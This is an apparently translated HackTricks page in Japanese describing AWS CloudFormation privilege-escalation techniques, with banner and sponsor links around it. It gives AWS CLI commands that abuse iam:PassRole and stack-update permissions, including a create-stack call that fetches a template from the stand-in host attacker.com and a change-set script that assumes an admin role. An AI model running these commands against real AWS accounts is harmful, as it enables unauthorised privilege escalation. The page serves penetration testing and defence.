 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

cloudformationに関する詳細情報は、以下を確認してください：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限の下でアクションを実行するために、サーバーにホストされたカスタムテンプレートを使用して** **CloudFormationスタック**を作成することにより、**権限を昇格させることができます**：
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ **エクスプロイト例**があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響:** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、**既存のcloudformationスタックを悪用**して、それを更新し、前のシナリオのように権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `UpdateStack` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが **`iam:PassRole` がない場合**でも、**使用されているスタックを更新**し、**既に添付されている IAM ロールを悪用**することができます。悪用の例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `UpdateStack` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ロールを**渡す権限**と**ChangeSet を作成および実行する権限**を持つ攻撃者は、**新しい cloudformation スタックを作成/更新し、cloudformation サービスロールを悪用**することができます。これは CreateStack または UpdateStack と同様です。

以下の悪用は、**ChangeSet 権限を使用してスタックを作成する**[ **CreateStack のバリエーション**](./#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `ChangeSet` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡さずに行うため、**既にアタッチされているものを悪用**することができます。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的影響:** 既にアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用してStackSetsを作成/更新し、任意のcloudformationロールを悪用する可能性があります。

**潜在的影響:** cloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用し、StackSetsを更新してアタッチされたcloudformationロールを悪用する可能性があります。

**潜在的影響:** アタッチされたcloudformationロールへの権限昇格。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
